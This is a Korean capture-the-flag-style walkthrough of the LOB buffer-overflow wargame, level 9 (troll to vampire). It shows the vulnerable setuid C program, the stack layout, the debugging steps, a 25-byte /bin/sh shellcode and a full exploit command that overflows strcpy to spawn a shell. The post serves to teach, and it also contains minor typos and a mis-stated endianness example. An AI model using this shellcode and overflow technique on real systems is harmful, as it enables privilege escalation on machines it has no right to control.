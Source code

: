 ```yaml
---
title: BOF/ LOB-level9(troll)
tags: LOB
---
```


LOB란 The Lord of the BOF의 약자로 Buffer over-flow를 연습해 볼 수 있는 해킹문제이다.    
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식이다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있다.  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### LOB Level 9(troll)
**ID : troll**  
**PASSWD : aspirin**  

```bash
$ bash2
```
풀이 시작 전에 bash2로 꼭 변경  
**bash는 \xff를 \x00(NULL)로 인식하여 제대로 문제를 풀 수 없다.**  

![그림1](/assets/LOB/level9/1.PNG)  
사용자 vampire의 권한의 vampire파일이 있음을 확인할 수 있다.  
**set-uid가 걸려있으므로 사용자 vampire의 권한으로 파일을 실행할 수 있다.**  
**vampire파일이 쉘을 실행시키도록 한다면 사용자 vampire의 쉘을 획득할 수 있다.**  

<br />
{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - vampire
        - check 0xbfff
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
        char buffer[40];

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }
.
        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // here is changed!
        if(argv[1][46] == '\xff')
        {
                printf("but it's not forever\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}
{% endhighlight %}  
**vampire.c**

### 소스분석  
1. argc가 2보다 작다면 "ergv error"을 출력하고 프로그램을 종료한다.  
**argc란? - 파라미터의 개수를 의미한다. 즉 main에 최소 2개이상의 인자를 전달하여야 한다.**  
**[LOB(level5)](https://limjunho.github.io/2019/11/03/LOB-level5(orc).html#lob-level-5orc)와 같이 argv[2]를 이용한 공격 불가**  
2. argv[1][47]의 값이 \xbf가 아닌경우 "stack is still your friend" 출력 후 프로그램 종료  
**RTL기법 사용 불가 What is RTL? - [LOB(level13)](https://limjunho.github.io/2020/03/14/LOB-level13(darkknight).html)**  
3. argv[1][46]의 값이 \xff인 경우 "but it's not forever"를 출력하고 프로그램 종료  
**argv[1][44]~argv[1][47]은 RET에 변조될 값인데 지금까지 bof시키던 주소값들은 bfffxxxx의 형식이였다.**  
**즉, 주소값을 조작할 방법을 찾아야 한다.**  
4. main에 전달받은 인자 argv[1]을 buffer에 복사하여 출력(argv[0]은 파일명)  
**strcpy함수는 복사할 데이터의 크기제한이 없기 때문에 argv[1]이 40Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**  

### Solution  
**[LOB(level5)](https://limjunho.github.io/2019/11/03/LOB-level5(orc).html#lob-level-5orc)와 비슷하게 argv[2]를 이용해 공격.**  
**스택은 높은 주소에서 낮은 주소로 자란다. -> argv[2]가 argv[1]보다 먼저 stack에 저장되기 때문에 argv[2]에 많은 값을 삽입하면 argv[1]의 주소가 낮아지게 될 것이다.**  


#### level9에서 사용한 쉘코드  
**\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80**  
**25Byte**  

**buffer over-flow를 이용하기 위해서는 프로그램 Stack의 구조를 알아야 한다.**  

스택구조|
---|
buffer(40Byte)|
sfp(4Byte)|
ret(4Byte)| 

**SFP(Stack frame pointer) - 이전 함수의 EBP주소를 담고 있다.**  
(EBP - 스택의 가장 바닥을 가리키는 포인터)  
**RET(Return Address) - 함수가 종료시 return될 주소**  

#### debugging  
**권한문제가 없도록 gremlin를 복사하고 gdb를 사용하여 intel방식으로 디스어셈블 한다.**  

![그림2](/assets/LOB/level9/2.PNG)  
main함수 disassemble.  

![그림3](/assets/LOB/level9/3.PNG)  
main함수 종료 전에 breakpoint를 걸고 인자를 전달해보았다.  
**전달한 인자(argv[0])가 0xbfff~범위에 있음을 확인**  

![그림4](/assets/LOB/level9/4.PNG)  
**argv[2]에 A를 20000개 전달하였더니 argv[1]의 주소가 낮아진것을 확인**  
**A를 20000개 전달했을 때, argv[1]주소 -> 0xbfffae08**  
하지만 여전히 bfff의 형식임.  

![그림5](/assets/LOB/level9/5.PNG)  
**argv[2]에 AAAA를 20000개 전달하였더니 argv[1]의 주소가 낮아진것을 확인**  
**A를 20000개 전달했을 때, argv[1]주소 -> 0xbffec3a8**

### argv[1]주소확인  
{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - vampire
        - check 0xbfff
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
        char buffer[40];

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }
.
        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // here is changed!
        if(argv[1][46] == '\xff')
        {
                printf("but it's not forever\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
        printf("%p\n", argv[1]);
}
{% endhighlight %}  
**vampire.c를 복사하여 소스 추가 -> printf("%p\n", argv[1]);**  

![그림6](/assets/LOB/level9/6.PNG)  
**정확한 주소 체크. -> 0xbffec3a6**  

### Attack  

argv[1]의 주소와 스택의 구조를 파악하였으므로 공격을 시도할 수 있다.  
**./vampire + [ShellCode] + [dummy] + [argv[1]주소]**의 형태로 공격.  
**이 때 ShellCode + dummy값의 길이는 buffer의 길이 + sfp(4byte)만큼 즉 44Byte여야 한다.**  
**또한 RET에 덮을 argv[1]의 주소는 리틀 엔디안 방식으로 기입한다.**  

**리틀 엔디안은 최 하위 바이트 부터 저장하는 방식이다.**  
ex) 0xbffffc11을 리틀 엔디안 방식으로 저장하면 11cfffbf가 된다.  
보통 엔디안 방식은 CPU 아키텍쳐에 따라 다르지만 intel x86, x64, AMD 계열은 리틀엔디안, 모토로라 프로세서들은 빅엔디안을 사용한다.  
현재 시스템의 엔디안방식을 확인하고 싶다면 echo -n I | od -to2 | head -n1 | awk'{print $2;}' | cut -c6  
명령으로 나오는 값이 1이라면 리틀 엔디안, 0이라면 빅엔디안이다.  

![그림7](/assets/LOB/level9/7.PNG)  
공격 성공.   

**페이로드**  
```bash
$ ./vampire `python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80' + 'A' * 19 + '\xa6\xc3\xfe\xbf'"` `python -c "print 'AAAA' * 20000"`
```